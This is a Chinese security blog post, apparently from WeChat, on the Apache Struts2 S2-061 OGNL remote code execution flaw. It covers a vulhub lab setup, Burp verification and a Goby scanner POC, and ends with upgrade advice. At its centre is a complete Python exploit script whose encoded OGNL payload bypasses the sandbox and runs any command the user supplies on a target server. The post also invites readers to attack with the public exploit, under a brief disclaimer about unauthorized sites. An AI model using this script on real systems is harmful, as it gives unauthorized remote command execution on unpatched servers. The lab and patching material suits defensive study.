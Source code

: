 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/SRmNKX8o2kV61IengcvwKQ)

![](https://mmbiz.qpic.cn/mmbiz_png/gicQ7o2bUTaxXgDML1Cvs0YYYGg7otpOAQ2gzVSZojZ3bqfyfLiaHJU0UXotWCThVwW9wP9AcebCAmGiahgVrFibKQ/640?wx_fmt=png)

点击上方蓝字关注我们

![](https://mmbiz.qpic.cn/mmbiz_png/RQeIt3Pib9ACndicibtRFhb6kvGnco1ruEg1kd4dx35GUUAl2ia08ib3usxsUJZP5smvZh9N1zg8uQ5mgibwn34gxHhA/640?wx_fmt=png)

**0x00:** **前言与简介**  

一、S2-061 是对 S2-059 沙盒进行的绕过漏洞

二、“黑客” 就通过构造恶意的 OGNL 表达式, 引发 OGNL 表达式二次解析, 最终造成远程代码执行的影响.

**0x01: 影响版本**

Apache:Struts2 : 2.0.0 - 2.5.25

**0x02:** **环境的搭建**  

采用的环境项目地址：

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-061
```

利用 Docker 进行快速的搭建

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrXicP1BJcGwRozz2tp3kzQKDhBag2oSL4cWTJENzyt2TaEfHDiaSk0giaBg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrXkicghfwGgLW7jLFAw7WAI4dibvqM6iblVN1brpQr5AvPX0XapZxC3ugiaA/640?wx_fmt=png)

利用 Burp 请求验证漏洞

EXP 源自网络：

```
https://github.com/vulhub/vulhub/tree/master/struts2/s2-061
```

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrXucCUOeymWKbz3RKFM8OJgVLvAu4lhmRlJgdzlvzxPRkAVOGGicP6XHQ/640?wx_fmt=png)

漏洞验证完毕

变更请求方法

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrXx0VhiavtOWwV5iaOHA4VST77uD4usAd3aicLKxK9ZkFTDcWyIic9d6wjWQ/640?wx_fmt=png)

验证成功

**0x03:Python 脚本的编写**  

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrXrAxOgxgj5xKCBnFL7PTK53LAgFA9asblrF3F0esOE72Q5SZCeY2kLg/640?wx_fmt=png)

构造一个 requests 的 Get 请求即可, 最后在利用正则筛选出命令执行的结果.

完整代码如下

```
#!/usr/bin/python3
 #author:Jaky
 #微信公众号:洛米唯熊

import requests,sys,re


if len(sys.argv)<3:
        print("[+]Use: pyhton3 s2-061.py http://ip:port command")
        print("[+]Explain: 洛米唯熊")
        print("[+]============================================================")
        sys.exit()

def Jaky():
    payload="%25%7b(%27Powered_by_Unicode_Potats0%2cenjoy_it%27).(%23UnicodeSec+%3d+%23application%5b%27org.apache.tomcat.InstanceManager%27%5d).(%23potats0%3d%23UnicodeSec.newInstance(%27org.apache.commons.collections.BeanMap%27)).(%23stackvalue%3d%23attr%5b%27struts.valueStack%27%5d).(%23potats0.setBean(%23stackvalue)).(%23context%3d%23potats0.get(%27context%27)).(%23potats0.setBean(%23context)).(%23sm%3d%23potats0.get(%27memberAccess%27)).(%23emptySet%3d%23UnicodeSec.newInstance(%27java.util.HashSet%27)).(%23potats0.setBean(%23sm)).(%23potats0.put(%27excludedClasses%27%2c%23emptySet)).(%23potats0.put(%27excludedPackageNames%27%2c%23emptySet)).(%23exec%3d%23UnicodeSec.newInstance(%27freemarker.template.utility.Execute%27)).(%23cmd%3d%7b%27"+sys.argv[2]+"%27%7d).(%23res%3d%23exec.exec(%23cmd))%7d"  
    url=sys.argv[1]+"/index.action?id="+payload
    r=requests.get(url).text
    z=re.findall("a id=.*",r)
    print (str(z).replace("a id=\"",""))

if __name__ == '__main__':
Jaky()
```

**效果图**

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrXEHhHic3epB5IjbsrNU44BBD2mx9rvnhDJjLuGzxLzhwSRwAxuwvzEKA/640?wx_fmt=png)

**0x04:Goby POC 编写**  

一、Goby 自带的 poc 开发界面

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrXjNmz7886yIYicSv7Bic6f1hyysicvQbqIkpbnKuBBShicXibMoicoiaUEhbBw/640?wx_fmt=png)

二、填写相应的信息

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrXEtIIw1cPT5QLlmibCGiatH3p7g8QPthH37ficUabia7c0r8NAvDseibFdIQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrXj35p2z3eI3Sjkfs1obp17iaNibbkF6PLibbgxcUJDU0OIw6FMooFYoBTw/640?wx_fmt=png)

三、在测试界面填写入上面的 Get 成功的 payload

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrX8Dhd4Z2zhvLMrBNVeJ8iahIp682DWmR2UmhfUNN2y7yyQpyicp06umTw/640?wx_fmt=png)

响应测试填写入的是响应包，我们需要的是得到什么信息。我这里测试的命令是 “ID”. 所以我利用正则的匹配获取 UID 的信息。

四、环境测试

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrX0czXKQZrXv8oRxhHTxUtATXRThPftgz5TXSFwg4ENS4qibZIFY565LQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrXtOhQbPqfiayFby4codULbwE2JTRMGwN9Cxk9FDRBK34t8wVGO6HUglQ/640?wx_fmt=png)

五、做扫描测试

![](https://mmbiz.qpic.cn/mmbiz_png/t5JeQdB9xwNiaGv1o34qRKzWjricZ6wRrXcwxgEgG9oCPfunica8YK0LvibtsbbML1wVKmic0kvYYOha36LT49wrntQ/640?wx_fmt=png)

六、接下来就可以利用公开的 exp 进行攻击了

**（未授权网站禁止攻击，后果自负）**

**0x05: 修复方案**

及时更新 Apache Struts 框架版本：

```
https://struts.apache.org/download.cgi#struts2526
```